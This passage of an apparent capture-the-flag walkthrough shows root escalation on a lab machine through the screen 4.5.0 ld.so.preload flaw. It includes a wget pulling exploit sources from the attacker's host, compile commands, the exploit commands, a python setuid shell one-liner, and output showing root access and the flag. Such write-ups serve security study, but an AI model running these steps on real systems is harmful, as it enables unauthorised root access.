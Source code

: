 Then, we transfer the c lenguage files to the victim machine.

```bash
www-data@straylight:/tmp$ wget 192.168.179.1/{libhax.c,rootshell.c}
```

We compile them.

```bash
www-data@straylight:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c 
www-data@straylight:/tmp$ gcc -o /tmp/rootshell /tmp/rootshell.c
```

We execute the following commands and we get root.

```bash
www-data@straylight:/etc$ cd /etc
cd /etc
www-data@straylight:/etc$ umask 000
umask 000
www-data@straylight:/etc$ /bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
< -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@straylight:/etc$ /bin/screen-4.5.0 -ls
/bin/screen-4.5.0 -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

www-data@straylight:/etc$ /tmp/rootshell
/tmp/rootshell
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

We read the flag.

```bash
# python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
root@straylight:/etc# cd /root
cd /root
root@straylight:/root# ls
ls
flag.txt  note.txt  scripts
root@straylight:/root# cat flag.txt
cat flag.txt
5ed185fd75a8d6a7056c96a436c6d8aa
```

We found a note containing a message about a Tomcat web service and a directory.

```bash
root@straylight:/root# cat note*
cat note*
Devs,

Lady 3Jane has asked us to create a custom java app on Neuromancer's primary server to help her interact w/ the AI via a web-based GUI.

The engineering team couldn't strss enough how risky that is, opening up a Super AI to remote access on the Freeside network. It is within out internal admin network, but still, it should be off the network completely. For the sake of humanity, user access should only be allowed via the physical console...who knows what this thing can do.

Anyways, we've deployed the war file on tomcat as ordered - located here:

/struts2_2.3.15.1-showcase

```